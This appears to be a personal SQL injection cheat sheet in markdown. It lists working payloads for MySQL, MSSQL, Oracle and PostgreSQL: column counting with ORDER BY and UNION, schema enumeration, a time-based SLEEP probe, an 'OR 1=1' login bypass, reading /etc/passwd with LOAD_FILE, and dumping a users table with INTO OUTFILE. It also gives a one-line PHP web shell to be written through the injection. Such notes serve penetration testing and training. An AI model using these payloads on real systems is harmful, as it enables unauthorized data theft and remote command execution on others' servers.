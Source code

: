 [[mssql]] [[mysql]] [[oracle]] [[postgresql]]
#sql
#cheatseet 
https://portswigger.net/web-security/sql-injection/cheat-sheet

##### Detect type and version
mssql, mysql - `select @@version`
oracle - `select BANNER from v$version`
postgresql - `select version()`

#### Get database
mysql - database()
postgresql - current_database()


##### Detect number of original query columns
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```
etc. until error occurs
or
until success
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--`
```
##### Useful queries
* `SELECT * FROM information_schema.tables`
* `SELECT table_name FROM information_schema.tables`
* `select column_name from information_schema.columns where table_name='users';`
*  `select group_concat(column_name) from information_schema.columns where table_name='users';`
*   `' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
* `' OR 1=1;--`
* May be used another quotes like \```
#### Fuzzing SQLi
https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

#### Privileges

Check for file privileges:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```

#### load file
```sql
SELECT LOAD_FILE('/etc/passwd');
```

#### write file
shell
```php
<?php system($_REQUEST[0]); ?>
```

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```
secure_file_priv defines scope of of available files, if empty - permits everything

```sql
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

hint for working with bin data:
```sql
FROM_BASE64("base64_data")'
```